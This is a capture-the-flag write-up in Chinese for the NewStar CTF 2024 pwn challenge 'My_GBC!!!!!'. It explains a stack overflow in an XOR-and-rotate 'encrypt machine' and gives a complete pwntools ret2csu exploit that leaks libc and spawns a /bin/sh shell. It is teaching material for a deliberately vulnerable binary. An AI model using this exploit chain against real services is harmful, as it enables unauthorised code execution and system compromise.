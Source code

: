 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# My_GBC!!!!!

先将程序拖入 IDA 分析

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  initial(argc, argv, envp);
  write(1, "It's an encrypt machine.\nInput something: ", 0x2CuLL);
  len = read(0, buf, 0x500uLL);
  write(1, "Original: ", 0xBuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  encrypt(buf, (unsigned __int8)key, (unsigned int)len);
  write(1, "Encrypted: ", 0xCuLL);
  write(1, buf, len);
  write(1, "\n", 1uLL);
  return 0;
}
```

发现存在一个简单的栈溢出，并且输入的数据经过了某种加密处理，异或后左移

```C
__int64 __fastcall encrypt(__int64 a1, char a2, int a3)
{
  __int64 result; // rax
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = i;
    if ( (int)i >= a3 )
      break;
    *(_BYTE *)((int)i + a1) ^= a2;
    *(_BYTE *)(a1 + (int)i) = __ROL1__(*(_BYTE *)((int)i + a1), 3);
  }
  return result;
}
```

运行程序后发现，栈溢出时，`rdx` 寄存器值为 1，而程序中能利用的函数 `read` `write` 的三参都是长度，这对我们利用十分不利，因此我们选择 ret2csu

![ret2csu](/assets/images/wp/2024/week2/my-gbc_1.png)

这是 csu 的代码片段，第一段代码能将 `r12` `r13` `r14` 分别 mov 到 `rdi` `rsi` `rdx`，这样我们便能控制 `rdx`，即控制函数的三参，并且后面还有 `call [r15+rbx*8]`，能控制程序的走向；第二段代码则是一长串的 `pop`，配合上述代码，即可达到 ROP，控制程序流程

需要注意的是，`call` 后面有 `add rbx, 1;` `cmp rbp, rbx;` `jnz` ...，我们需要控制 `rbx = 0` `rbp = 1`

对于加密函数，异或和左移都是可逆运算，我们只需对我们输入的内容先右移后异或 `0x5A` 即可

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
def uu64(x): return u64(x.ljust(8, b'\x00'))
def s(x): return p.send(x)
def sa(x, y): return p.sendafter(x, y)
def sl(x): return p.sendline(x)
def sla(x, y): return p.sendlineafter(x, y)
def r(x): return p.recv(x)
def ru(x): return p.recvuntil(x)


k = 1
if k:
    addr = ''
    host = addr.split(':')
    p = remote(host[0], host[1])
else:
    p = process('./My_GBC!!!!!')
elf = ELF('./My_GBC!!!!!')
libc = ELF('./libc.so.6')


def debug():
    gdb.attach(p, 'b *0x401399\nc\n')


def ror(val, n):
    return ((val >> n) | (val << (8 - n))) & 0xFF


def decrypt(data: bytes, key: int):
    decrypted_data = bytearray()
    for byte in data:
        byte = ror(byte, 3)
        byte ^= key
        decrypted_data.append(byte)
    return decrypted_data


def csu_1(arg1, arg2, arg3, func=0, rbx=0, rbp=1):
    r12 = arg1
    r13 = arg2
    r14 = arg3
    r15 = func
    payload = p64(0x4013AA)
    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    return payload


def csu_2():
    payload = p64(0x401390)
    return payload


add_rsp_8_ret = 0x401016
ret = 0x40101a
payload = b'a' * 0x18 + csu_1(1, elf.got.read, 0x100, elf.got.write) + csu_2()
payload += csu_1(0, 0x404090, 0x50, elf.got.read) + csu_2()
payload += csu_1(0, 0, 0, 0x404098) + csu_2() + p64(ret)
payload += csu_1(0x4040A0, 0, 0, 0x404090) + csu_2()
# debug()
ru(b'Input something:')
s(decrypt(payload, 90))

libc_base = uu64(ru(b'\x7f')[-6:]) - libc.sym.read
success(f"libc_base --> 0x{libc_base:x}")

payload = p64(libc_base + libc.sym.system + 0x0) + p64(add_rsp_8_ret) + b'/bin/sh\x00'
s(payload)

p.interactive()
```
